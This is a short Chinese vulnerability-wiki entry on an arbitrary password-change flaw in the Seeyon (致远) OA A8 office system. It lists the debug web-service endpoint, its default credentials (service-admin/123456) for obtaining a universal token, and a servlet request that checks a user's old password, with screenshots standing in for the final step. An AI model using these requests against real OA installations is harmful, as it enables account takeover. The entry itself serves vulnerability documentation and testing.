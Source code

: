 致远OA A8 任意用户密码修改漏洞
==============================

一、漏洞简介
------------

二、漏洞影响
------------

致远OA A8

三、复现过程
------------

    http://www.0-sec.org/seeyon/services/authorityService?wsdl

通过调试接口的默认用户 userName:service-admin password:123456
获取万能Token之后可以修改任意用户密码。

![](/Users/aresx/Documents/VulWiki/.resource/致远OAA8任意用户密码修改漏洞/media/rId24.png)

访问

    http://www.0-sec.org/seeyon/getAjaxDataServlet?S=ajaxOrgManager&M=isOldPasswordCorrect&CL=true&RVT=XML&P_1_String=zw&P_2_String=wooyun

返回false 说明zw密码不正确

![](/Users/aresx/Documents/VulWiki/.resource/致远OAA8任意用户密码修改漏洞/media/rId25.png)

修改密码

![](/Users/aresx/Documents/VulWiki/.resource/致远OAA8任意用户密码修改漏洞/media/rId26.png)

![](/Users/aresx/Documents/VulWiki/.resource/致远OAA8任意用户密码修改漏洞/media/rId27.shtml)
